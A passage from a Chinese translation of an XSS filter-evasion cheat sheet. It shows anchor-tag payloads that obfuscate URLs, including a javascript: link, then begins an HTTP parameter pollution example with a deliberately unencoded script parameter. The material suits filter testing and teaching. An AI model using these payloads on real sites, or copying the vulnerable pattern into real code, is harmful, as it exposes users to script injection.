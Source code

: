 ```html
<A HREF="//www.google.com/">XSS</A>
```

#### 删除 CNAME

与上面的 URL 结合，删除 `www.` 将额外节省 4 个字节，对于正确设置的服务器，总共节省 9 个字节：

```html
<A HREF="http://google.com/">XSS</A>
```

绝对 DNS 的额外点：

```html
<A HREF="http://www.google.com./">XSS</A>
```

#### JavaScript 链接位置

```html
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

#### 内容替换作为攻击向量

假设 `http://www.google.com/` 被程序化地替换为空。类似的攻击向量已被用于几个独立的真实世界 XSS 过滤器，通过使用转换过滤器本身（这里是一个例子）来帮助创建攻击向量 `java&\#x09;script:` 被转换为 `java	script:`，在 IE 中呈现：

```html
<A HREF="http://www.google.com/ogle.com/">XSS</A>
```

### 使用 HTTP 参数污染辅助 XSS

如果网站上的内容共享流程如下所示实现，这种攻击将起作用。有一个 `Content` 页面，其中包含一些用户提供的内容，此页面还包含一个指向 `Share` 页面的链接，该页面使用户能够选择他们喜欢的社交分享平台。开发人员在 `Content` 页面中对 `title` 参数进行了 HTML 编码以防止 XSS，但出于某些原因，他们没有对此参数进行 URL 编码以防止 HTTP 参数污染。最后，他们决定由于 `content_type` 的值是常量并且将始终是整数，因此他们没有在 `Share` 页面中对 `content_type` 进行编码或验证。

#### Content 页面源代码

```html
a href="/Share?content_type=1&title=<%=Encode.forHtmlAttribute(untrusted content title)%>">Share</a>
```

#### Share 页面源代码

```js
<script>
var contentType = <%=Request.getParameter("content_type")%>;
var title = "<%=Encode.forJavaScript(request.getParameter("title"))%>";
...
//这里可能有一些用户协议和发送到服务器的逻辑
...
</script>
```

#### Content 页面输出
